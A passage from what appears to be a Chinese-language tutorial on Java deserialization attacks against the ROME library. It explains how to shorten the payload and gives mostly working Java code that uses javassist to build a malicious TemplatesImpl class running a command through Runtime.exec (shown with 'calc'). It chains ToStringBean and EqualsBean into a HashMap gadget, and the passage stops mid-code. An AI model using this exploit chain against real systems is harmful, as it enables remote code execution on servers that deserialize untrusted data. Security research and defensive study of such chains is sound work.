 ```plain
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

然后我们就可以进行我们 payload 缩短了，首先注意几个赋值的地方：

*   TemplatesImpl.\_name 的长度可以为 1
*   TemplatesImpl.\_tfactory 可以不用赋值
*   HashMap 的 value 长度可以为 1

```plain
package EXPROME;

import EXPShell.GetShellCode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class RomeEqualsShorter {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = new TemplatesImpl();
//        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\A.class"));
//        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());
        setValue(templatesimpl,"_name","a");
        setValue(templatesimpl,"_bytecodes",new byte[][] {genPayload("calc")});


        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
```
